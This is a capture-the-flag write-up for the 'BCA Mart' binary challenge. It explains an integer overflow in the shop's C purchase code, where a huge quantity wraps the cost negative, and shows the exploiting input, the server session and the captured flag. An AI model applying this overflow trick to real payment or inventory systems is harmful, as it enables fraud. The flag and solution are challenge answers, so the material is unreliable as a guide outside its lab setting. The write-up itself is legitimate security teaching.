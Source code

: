 # BCA Mart

#### Category : binex
#### Points : 75 points
#### Author : Edward Feng

## Challenge

After the pandemic hit, everybody closed up shop and moved online. Not wanting to be left behind, BCA MART is launching its own digital presence. Shop BCA MART from the comfort of your own home today!
![question](question.png)
-   [bca-mart.c](https://objects.bcactf.com/bcactf2/bca-mart/bca-mart.c)
-   [bca-mart](https://objects.bcactf.com/bcactf2/bca-mart/bca-mart)
-   `nc bin.bcactf.com 49153`

## Solution
This was a simple integer overflow problem

Looking at the source code `bca-mart.c`, we see 
The initial money (15)
```cpp
int money = 15;
```

The price of the flag (100)
```cpp
case 6:
                if (purchase("super-cool ctf flags", 100) > 0) {
                    FILE *fp = fopen("flag.txt", "r");
                    char flag[100];

                    if (fp == NULL) {
                        puts("Hmm, I can't open our flag.txt file.");
                        puts("Sorry, but looks like we're all out of flags.");
                        puts("Out of luck, we just sold our last one a couple mintues ago.");
                        puts("[If you are seeing this on the remote server, please contact admin].");
                        exit(1);
                    }

                    fgets(flag, sizeof(flag), fp);
                    puts(flag);
                }
```

The vulnerable code 
```cpp
    scanf("%d", &amount);

    if (amount > 0) {
        cost *= amount;
        printf("That'll cost $%d.\n", cost);
        if (cost <= money) {
            puts("Thanks for your purchse!");
            money -= cost;
```

This code is vulnerable because although it does check if amount is positive or not, it does not check if `cost *= amount` is positive.

We need to provid such an amount so that `cost*amount` goes more than `INT_MAX` after which the cost becomes negative and we are able to buy the flag.

#### Getting Flag
```bash
Welcome to BCA MART!
We have tons of snacks available for purchase.
(Please ignore the fact we charge a markup on everything)

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $15.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 200000000
That'll cost $-1474836480.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
```
Flag : ```bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}```
